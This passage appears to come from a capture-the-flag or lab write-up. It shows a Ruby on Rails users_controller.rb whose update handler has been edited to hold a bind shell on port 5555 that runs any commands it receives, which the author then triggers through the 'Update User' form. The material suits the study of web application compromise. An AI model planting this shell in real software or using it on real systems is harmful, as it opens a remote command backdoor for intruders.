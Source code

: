 We can then upload a modified version of the `users_controller.rb`, which handles HTTP requests related to the `/user` path.

I edited the `PATCH/PUT` handler to include this bind shell payload: [https://github.com/secjohn/ruby-shells/blob/master/shell.rb](https://github.com/secjohn/ruby-shells/blob/master/shell.rb)

```ruby
class UsersController < ApplicationController
  include BCrypt
  before_action :authorize, only: [:new, :create, :edit, :update, :destroy]
  before_action :set_user, only: [:show, :edit, :update, :destroy]

    ...

  # PATCH/PUT /users/1
  # PATCH/PUT /users/1.json
  def update

    require 'socket'
    require 'open3'

    #The number over loop is the port number the shell listens on.
    Socket.tcp_server_loop(5555) do |sock, client_addrinfo|
      begin
      while command = sock.gets
        Open3.popen2e("#{command}") do | stdin, stdout_and_stderr |
          IO.copy_stream(stdout_and_stderr, sock)
          end  
          end
       rescue
      break if command =~ /IQuit!/
      sock.write "Command or file not found.\n"
      sock.write "Type IQuit! to kill the shell forever on the server.\n"
      sock.write "Use ^] or ctl+C (telnet or nc) to exit and keep it open.\n"
      retry
       ensure
         sock.close
      end
    end

    ...

end
```

After uploading the modified `users_controller.rb` and submitting the "Update User" form, we can then connect to the bind shell.

![](../../.gitbook/assets/ea5fa523792c411382b0211318af27a5.png)
